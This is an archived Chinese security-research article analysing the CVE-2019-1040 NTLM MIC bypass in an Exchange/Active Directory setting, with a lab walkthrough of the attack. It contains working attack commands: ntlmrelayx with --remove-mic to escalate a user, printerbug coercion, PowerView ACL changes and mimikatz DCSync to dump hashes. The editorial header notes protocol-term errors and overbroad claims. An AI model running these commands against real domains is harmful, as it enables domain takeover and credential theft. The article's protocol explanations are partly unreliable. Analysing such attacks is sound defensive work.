# Exchange攻防系列之CVE-2019-1040分析

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：Domain account/coercion path, NTLM MIC-vulnerable systems, relayed Exchange machine privileges and LDAP signing policy; exact patch matrix absent
- 证据范围：Substantial Exchange AD background and packet-field walkthrough; lab addresses/accounts and screenshot-dependent result

### 本次正文校订

- 修正正文中的 CN=Servicesm → CN=Services 转录错误，资源路径保持原样。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- Canonical product is Windows NTLM; Exchange is attack context, so cross-link AD/Windows category
- Conflates SMB authentication and SMB signing throughout empirical default discussion
- Conflates MIC output/session key and integrity/encryption; protocol terms need correction against specification
- Claims installing Exchange ensures recoverable domain-admin credentials/privileges too broadly; configuration/version dependent
- CN=Servicesm typo; inconsistent lab usernames; large unnecessary line breaks/footer
- No affected Windows versions or patch references

### 操作风险与资料使用

- 含落盘脚本或账户创建：会留下持久状态。记录本次生成的路径或账户，测试后清理这些对象并撤销关联令牌；不要删除既有业务对象。
- 涉及 LDAP/RMI/DNS/HTTP 外带：回连只证明相应网络交互，不能单独证明命令执行；使用自控接收端，避免把日志、凭据或真实业务数据发送给第三方。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

原创 chuxin  青藤智库   2024-03-29 18:00  
  
  
  
**Exchange基础**  
  
  
  
我们在进行渗透时会发现拿到Exchange  
服务器权限之后就可以拥有域管权限或者可以拿到域管权限，那么为什么Exchange这么  
神奇，我们从Exchange  
原理、漏洞产生原理和场景利用等方面进行系统分析。  
  
  
因为安装Exchange的时候是需要域管才可以安装的，所以需要域管登陆Exchange，这时计算机保存了域管的凭证，当我们拿到Exchange服务器后就可以导出，获得域管权限。  
  
  
当我们安装Exchange时，域会将Exchange的信息和内容写到AD数据库中，所以我们通过Ldap就可以看到Exchange的一些用户属性的配置。  
  
  
**为Exchange准备Active Directory需要三个步骤**  
  
  
  
**1、扩展Active Directory架构**  
  
在Exchange服务器每次升级后，它的架构可能也会有更改。例如Exchange 2019 在更新完之后有时会[修改架构](https://learn.microsoft.com/en-us/exchange/plan-and-deploy/active-directory/ad-schema-changes?view=exchserver-2019)  
  
。  
  
  
  
**2、准备活动目录容器、对象和其他项目**  
  
首先会在 CN=Services,CN=Configuration,DC=test,DC=com 下创建Microsoft Exchange 容器：  
  
   
  
  
其中的内容有些是只有Exchange 2016  
才具备的，比如：  
  
CN=UM AutoAttendant Container  
  
CN=UM DialPlan Container  
  
CN=UM IPGateway Container  
  
CN=UM Mailbox Policies  
  
  
**3、准备Active Directory域**  
  
可以看到Ldap  
中多了一个OU  
，Microsoft Exchange Security Groups  
（Microsoft Exchange  
安全组），和一个CN   
，Microsoft Exchange System Objects  
（Microsoft Exchange  
系统对象）：  
  
  
  
我们主要去关注 Microsoft Exchange Security Groups  
（Microsoft Exchange  
安全组）的内容：  
  
  
  
而 Microsoft Exchange Security Groups  
（Microsoft Exchange  
安全组）这个ou  
里的内容则在 CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=test,DC=com   
中的otherWellKnownObjects  
属性的值：  
  
  
  
在安装完Exchange  
后我们可以查看CN=Microsoft Exchange System Objects,DC=test,DC=com  
中的objectVersion  
属性的值来判断是否已经准备好Active Directory  
域。例如安装的是Exchange 2019  
则可以通过此属性判断版本。  
  
  
  
  
**Exchange添加邮箱**  
  
  
  
当我们安装成功Exchange  
时用户是不可以登陆的，需要在Exchange  
的配置项中添加用户，从而等于给用户开通邮箱。  
  
  
如果没有开通邮箱前是无法登陆的。  
  
  
我们给xx  
用户开通邮箱，需要登陆管理员的邮箱并进入Excahnge  
管理中心（ecp  
目录）当然我们可以选择现有用户就是在域内已经创建了此用户，如果想要开通一个域内还没有的用户则可以选择新用户进行创建，这样在ldap  
中也会创建一个用户。  
  
  
  
  
  
之后则可以登陆此账号到邮箱中。  
  
  
  
我们开通xx  
用户的邮箱后观察ldap  
中xx  
的属性可以发现多了很多属性，其中包括的用户邮箱等等信息，当我们域渗透进行信息搜集时可以根据此信息判断此用户是否开通了邮箱。  
  
  
  
  
**Microsoft Exchange Security Groups（Microsoft Exchange安全组）**  
  
  
  
我们来详细看一下 Microsoft Exchange Security Groups  
，前面说过我们主要关注此OU  
，那么为什么要关注此OU  
，这个OU  
内有什么值得我们关注地方？  
  
  
**Discovery Management**  
此组成员可以在 Exchange 中针对符合特定标准的数据执行邮箱的搜索。  
  
  
**Exchange Servers**  
此组中包含当前域内的Exchange服务器，我们通过这个组就可以定位Exchange是哪台计算机：  
  
  
  
**Exchange windows permissions**  
****  
 组的用户拥有writeDACL权限：  
  
  
  
**Exchange Trusted Subsystem**  
****  
用户组又隶属于Exchange Windows Permission，继承了Exchange Windows Permission组的功能：  
  
  
  
Exchange Trusted Subsystem   
组的成员具有writeDACL  
权限，默认是Exchange  
的机器用户，所以这也是我们上面问题的答案。当我们拿到Exchange  
服务器后就可以对域内用户进行writeDACL  
，但是我们不能向域管组等添加ACL：  
  
  
  
**例如：**  
  
当我们获得Exchange  
服务器后，就可以使用Exchange  
机器账户进行writeDACL。  
  
  
这时要注意的是需要使用Exchange  
计算机的机器用户，如果我们使用普通用户的话是不可以writeDACL  
的，因为Exchange Trusted Subsystem   
组的成员只有Excahnge  
机器。  
  
  
那么机器用户是什么？简单来说机器用户可以理解为一台机器的system  
权限，我们来看一下，当我们使用exchangeuser  
这个域用户进行writeDACL  
时会怎么样：  
  
  
1  
、我们使用了PowerView.ps1  
工具进行操作将qt01  
用户添加DCSync  
权限，可以看到提示拒绝访问。  
  
Add-DomainObjectAcl -TargetIdentity "DC=wanliu1,DC=com" -PrincipalIdentity test -Rights DCSync -Verbose  
  
  
  
2  
、使用mimikatz  
使用qt01  
用户进行DCSync  
时会显示失败。  
  
lsadump::dcsync /domain: /all /csv  
  
  
  
3  
、那我们使用exchange  
机器用户进行添加，也就是提升到system  
权限，我们可以看到添加成功了。  
  
  
  
4  
、这时再进行DCSync  
导出hash  
，就可以成功导出。  
  
  
  
**环境介绍**  
  
  
  
域控            192.168.190.46  
  
Exchange    192.168.190.146  
  
域内账号       qt01  
  
攻击机          kali linux   192.168.192.194  
  
  
**CVE-2019-1040漏洞利用**  
  
  
  
我们使用qt01  
账号进行DCSync  
时是失败的，因为权限不够。  
  
  
  
1  
、在攻击机中我们使用ntlmrelayx.py  
进行监听，并进行relay  
。给qt01  
用户添加DCSync  
权限。  
  
ntlmrelayx.py --remove-mic --escalate-user qt01 -t ldap://192.168.190.46 -smb2support --delegate-access  
  
  
  
2  
、使用打印机漏洞，让exchange  
向我们进行访问，可以使用exe  
或者py  
，根据自己的实际情况来定。  
  
printerbug.py wanliu1.com/qt:qt@user123@192.168.190.146 192.168.192.194  
  
  
  
3  
、收到请求可以看到添加成功。  
  
  
  
4  
、使用DCSync  
进行利用。  
  
  
  
**CVE-2019-1040漏洞分析**  
  
  
  
[Ntlm](https://mp.weixin.qq.com/s?__biz=MzU0MjMwMTkxNA==&mid=2247483813&idx=1&sn=e1856fb5a8c3ca33945f30bfb59efea0&scene=21#wechat_redirect)  
  
   
协议原理在"  
清河六点下班"  
公众号文章中介绍过了，如果没了解过NTLM  
协议原理的小伙伴可以看一下。  
  
  
我们首先看一下哪些协议是需要签名的：  
  
SMB  
：双方有一方的 Signing required   
为 1   
时，启用签名。  
  
LDAP  
：协商签名，双方都支持签名则使用签名。  
  
HTTP  
：不支持签名。  
  
  
  
我这里一直有一个疑问，到底什么样的机器会开启SMB  
认证，网上的说法很多，所以不知道哪种是正确的，然后就做了个实验。  
  
  
结论是域控的SMB  
认证都是开启的，而非域控机器SMB  
认证都是关闭的，但是Exchange  
的SMB  
认证也是开启的。原来以为装了服务的server  
系统就会开启，但是当我安装了mssql  
数据库之后发现并没有开启。  
  
  
windows server2008  
域控 开启：  
  
  
  
windows server2008   
禁用：  
  
  
  
windows server2012  
域控 开启：  
  
  
  
windows server2012   
禁用：  
  
  
  
windows server2016 exchange  
开启：  
  
  
  
windows10   
禁用：  
  
  
  
根据上面的结果如果要中继到ldap  
协议时双方都支持签名才会使用签名，所以我们可以使用HTTP  
协议进行中继，因为HTTP  
协议是不支持签名的这个后面再说。我们最常用的就是SMB  
认证，但是SMB  
认证会有一个问题就是在Exchange  
中数字签名默认是开启的，只有在非域控或是非exchange  
服务器才是关闭的。我们去relay  
普通机器是没用的，我们只能去relay Exchange  
服务器或者其他高权限的用户去做操作才有意义，为什么Exchange  
会是高权限用户？上面Exchange  
基础介绍过了。我们去分析 CVE-2019-1040   
这个漏洞之前需要先了解两个东西：  
  
  
**数字签名**  
  
  
签名是一个可以保证数据在发送和接收的过程中没有被篡改。比如小明发送一个数据 "  
你好"   
给A  
用户，并且对数据进行签名， 那么任何收到该数据和小明签名的人，都可以验证它时小明写的，并且可以确定小明写了这句话，而不是另一个人写的，因为此数据中存在签名保证了数据没有被篡改。  
  
  
当数据在通讯时开启并使用了签名，那么攻击者就无法进行relay  
攻击。如果在relay  
中当攻击者抓取到了数据，并修改了数据，但无法将数据进行签名，因为添加签名需要知道客户端的密码。当我们将没有签名的数据发送给服务器时，服务器会拒绝我们的请求，并将数据包丢弃，因为数据中并没有签名。  
  
  
  
**Message Integrity Code（MIC）**  
  
  
信息完整性代码，MIC   
是在 AUTHENTICATE  
消息中发送的签名。MIC   
使用HMAC_MD5  
函数计算，称为会话密钥。  
  
  
ntlm  
身份校验由三种消息类型组成 NTLM_NEGOTIATE  
，NTLM_CHALLENGE  
，NTLM_AUTHENTICATE。  
  
  
HMAC_MD5(Session key, NEGOTIATE_MESSAGE + CHALLENGE_MESSAGE + AUTHENTICATE_MESSAGE)：  
  
  
  
而MIC  
则在NTLM_AUTHENTICATE  
中，会话密钥取决于客户端的密码，所以攻击者是无法计算MIC  
的。  
  
  
  
因为我们无法计算MIC  
，当我们修改其中的数据后，无法重新计算MIC  
。那么我们如果删除MIC  
可以吗？删除是可以的，但是还有一个地方表明了是否存在MIC  
。  
  
  
在 msvAvFlag   
字段中说明了是否包含MIC  
，如果这个值为 0x00000002   
那么客户端就告诉服务端请求中包含MIC  
，如果服务端发现没有MIC  
的话就会将数据包其丢弃。  
  
  
也就是说这个值决定了当我们建立连接之后，通讯是否要加密，如果要加密，那么我们无法计算MIC  
值所以就无法进行通讯。  
  
  
  
**我们了解了数字签名和MIC之后接着往下看**  
  
  
在这里我们可以看到此请求是支持签名，但是也可以不需要签名：  
  
Signing enabled   
是否支持签名  
  
Signing required   
是否需要签名  
  
  
  
在这个地方也可以看到是支持签名的，但是是否需要签名是需要看协议和客户端跟服务端的关系来定的。  
  
  
  
当我们使用ldap  
协议进行中继时，可以不设置需要签名，那么进行ldap  
通讯时就不需要签名。在我们进行relay  
时是如果从smb   
中继到ldap  
时，因为smb  
默认支持签名，这样就会触发ldap  
签名。所以在默认情况下我们是不可以从smb  
中继到ldap  
的，但是CVE-2019-1040   
这个漏洞完成了对签名的绕过。  
  
  
这里我们来看一下 CVE-2019-1040   
这个漏洞为什么可以从smb  
中继到ldap  
。通过smb  
和ldap  
对比着来看一下，当让目标请求到攻击者的机器后，攻击者修改了哪些数据发送给服务器，导致服务器可以被攻击成功：  
  
  
1  
、让Exchange  
向攻击者发送SMB  
请求 NTLM_NEGOTIATE：  
  
  
  
攻击者将Excahnge  
发送的SMB  
请求进行修改包后发送给目标服务器：  
  
  
  
在通过LDAP  
中继时，取消设置NTLM_NEGOTIATE  
中的签名标志（NTLMSSP_NEGOTIATE_ALWAYS_SIGN  
，NTLMSSP_NEGOTIATE_SIGN  
）。  
  
  
NTLMSSP_NEGOTIATE_ALWAYS_SIGN   
位表示客户端和服务器进行通信应携带数字签名：  
  
  
  
具体字段的含义可以查看微软的文档：  
  
[https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/99d90ff4-957f-4c8a-80e4-5bfe5a9a9832?redirectedfrom=MSDN](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/99d90ff4-957f-4c8a-80e4-5bfe5a9a9832?redirectedfrom=MSDN)  
  
  
  
2  
、攻击者向Exchange  
返回的内容 NTLM_CHALLENGE：  
  
  
  
服务端向攻击者返回的内容，此时没有改变数据：  
  
  
  
3  
、Exchange  
向攻击者进行认证 NTLM_AUTHENTICATE  
，有几个地方需要注意，之前我们说过的 0x00000002   
值以及版本信息和MIC  
的值：  
  
  
  
当攻击者向服务端转发请求是修改了此部分，0x00000002   
值这里没有修改，而是将版本信息以及MIC  
的值给删除：  
  
  
  
还是上面的包3  
中的这些字段：  
  
  
  
将NTLM_AUTHENTICATE  
中的以下字段设置为0  
：NTLMSSP_NEGOTIATE_ALWAYS_SIGN  
，NTLMSSP_NEGOTIATE_SIGN  
，NEGOTIATE_KEY_EXCHANGE  
，NEGOTIATE_VERSION  
  
  
  
**总结**  
  
  
  
总结一下此漏洞通过修改了哪些地方进行绕过：  
  
  
**MIC绕过**  
  
  
取消MIC  
校验以确保可以修改数据包中的内容：  
  
（1  
）从NTLM_AUTHENTICATE  
消息中删除MIC  
  
（2  
）从NTLM_AUTHENTICATE  
消息中删除版本字段（删除MIC  
字段而不删除版本字段将导致错误）。  
  
  
**LDAP签名绕过**  
  
  
将NEGOTIATE_SIGN  
设置为not set  
以绕过LDAP  
验证：  
  
（1  
） 取消设置NTLM_NEGOTIATE  
消息中的签名标志（NTLMSSP_NEGOTIATE_ALWAYS_SIGN  
，NTLMSSP_NEGOTIATE_SIGN  
）  
  
（2  
） 取消设置NTLM_AUTHENTICATE  
消息中的以下标志：NTLMSSP_NEGOTIATE_ALWAYS_SIGN  
，NTLMSSP_NEGOTIATE_SIGN  
，NEGOTIATE_KEY_EXCHANGE  
，NEGOTIATE_VERSION  
。  
  
  
关于作者：  
  
chuxin：青藤云安全-攻防研究专家。  
  
  
**-完-**  
  
  
**热门动态推荐**  
  
  
  
  
  
  
  
  
  
  
  
  
  
  
  

---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
